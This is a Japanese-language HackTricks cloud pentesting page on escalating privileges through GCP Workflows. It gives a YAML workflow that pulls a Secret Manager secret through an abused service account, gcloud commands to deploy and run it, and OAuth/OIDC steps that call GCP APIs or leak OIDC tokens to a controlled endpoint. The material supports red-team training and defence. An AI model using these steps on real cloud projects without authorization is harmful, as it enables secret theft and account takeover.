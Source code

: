 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

基本情報:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

私の知る限り、Workflowに攻撃されたSAの資格情報を含むメタデータエンドポイントへのアクセスでシェルを取得することは不可能です。しかし、Workflow内で実行するアクションを追加することで、SAの権限を悪用することは可能です。

コネクタのドキュメントを見つけることができます。例えば、これは[**Secretmanagerコネクタのページ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**です。** サイドバーには他のいくつかのコネクタが見つかります。

ここに秘密を印刷するコネクタの例があります:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLIからの更新:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
ウェブアクセスがない場合でも、Workflowの実行をトリガーして確認することが可能です：

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
以前の実行の出力を確認して、機密情報を探すこともできます。
{% endhint %}

`PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` のようなエラーが発生しても、その権限がないために、ワークフローは生成されています。

### OIDCトークンの漏洩（およびOAuth？）

[**ドキュメントによると**](https://cloud.google.com/workflows/docs/authenticate-from-workflow)、OAuthまたはOIDCトークンを含むHTTPリクエストを送信するワークフローステップを使用することが可能です。しかし、[Cloud Scheduler](gcp-cloudscheduler-privesc.md)の場合と同様に、OAuthトークンを含むHTTPリクエストはホスト`.googleapis.com`に対して行う必要があります。

{% hint style="danger" %}
したがって、**ユーザーが制御するHTTPエンドポイントを指定することでOIDCトークンを漏洩させることは可能ですが、**OAuthトークンを漏洩させるにはその保護を**バイパスする必要があります。しかし、**コネクタまたはOAuthトークンを使用したHTTPリクエストを介して、SAの代理で任意のGCP APIに連絡してアクションを実行することは依然として可能です。**
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

この権限を使用すると、`workflows.workflows.create`の代わりに、既存のワークフローを更新し、同じ攻撃を実行することが可能です。

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
